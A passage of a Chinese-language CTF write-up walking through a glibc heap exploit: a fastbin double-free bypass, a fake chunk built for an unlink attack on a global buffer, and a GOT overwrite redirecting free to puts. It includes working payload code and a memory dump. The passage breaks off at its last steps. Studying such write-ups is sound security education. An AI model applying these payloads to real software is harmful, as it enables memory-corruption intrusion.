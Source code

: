 在這裡 small 很像是重複 `free` 了兩次，但是因為 fastbin 只會檢查 fasttop 也就是 fastbin list 裡的第一個，因為剛剛在 keep huge 回收 fastbin 時被拿掉了所以可以 bypass double free 的檢查。

這裡 keep small 時輸入的 input 就可以開始偽造 fake chunk 了，payload 如下：

```python
fake_fd = 0x6020d0-0x18
fake_bk = 0x6020d0-0x10
payload = ""
payload += p64(0x0) # previous size not important
payload += p64(0x21) # fake chunk size
payload += p64(fake_fd)
payload += p64(fake_bk)
payload += p64(0x20) # fake previous size for big chunk
```

因為等等會利用 wipe(big) 來進行 unlink 所以這裡我們需要的任意 address 位置就把它設在 `0x6020d0` 也就是 global buffer 上的 small_buf 的位置，才能進行 renew。在這裡利用 payload 把 small chunk 可寫的地方當成另一個 chunk，然後 fake big chunk 的 previous size 這樣他在進行 unlink 才會找到我們偽造的 fd 跟 bk。

7. wipe(big) # trigger unlink

此時 `0x6020d0` 的位置，也就是 small_buf 的位置已經指到 global buffer 上了，後面就是利用 renew 來進行任意位置讀寫

```assembly
0x6020b0:       0x00007f388c24f620      0x0000000000000000
0x6020c0:       0x00000000007fe9d0      0x00007f388c3e4010
0x6020d0:       0x00000000006020b8      0x0000000100000000
0x6020e0:       0x0000000000000001      0x0000000000000000
```

8. renew(small)

payload :

```python
payload = ""
payload += p64(0x0) # padding
payload += p64(free_got) # big_buf
payload += p64(0x0)
payload += p64(0x6020c0) # for write arbitrary
payload += p32(1) * 3 # let us be easy to renew
```

在這裡我們把 `big_buf` 指到了 `free` 的 GOT entry，把 `small_buf` 指到了 `&big_buf`，之後好二次寫入，後面的 p32(1) * 3 是為了讓 buf inuse 設成 1 才能進行 renew。

9. renew(big) 

接著利用 renew(big) 來把 `free` 的 GOT entry 上得值 hijack 成 call `puts`

payload :

```python
puts_plt = 0x400760
payload = p64(puts_plt) * 2
```

10. renew(small) 
11. wipe(big)
